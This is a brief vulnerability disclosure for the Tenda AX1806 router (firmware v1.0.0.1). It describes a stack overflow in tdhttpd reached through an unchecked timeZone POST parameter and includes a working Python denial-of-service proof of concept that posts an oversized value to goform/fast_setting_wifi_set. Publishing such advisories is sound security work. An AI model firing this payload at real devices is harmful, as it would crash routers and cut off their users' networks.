

## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has a stack overflow vulnerability. The vulnerability occurrs in the form_fast_setting_wifi_set function, which can be accessed through the URL `goform/fast_setting_wifi_set`.  

- 

The function takes the POST parameter `timeZone`, does not validate its length, and copies it directly to local variables on the stack, causing stack overflows.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"ssid": b'A',
    b"timeZone": b"A"*0x100 + b":" + b"A"*0x400 
}
res = requests.post("http://127.0.0.1/goform/fast_setting_wifi_set", data=data)
print(res.content)
```

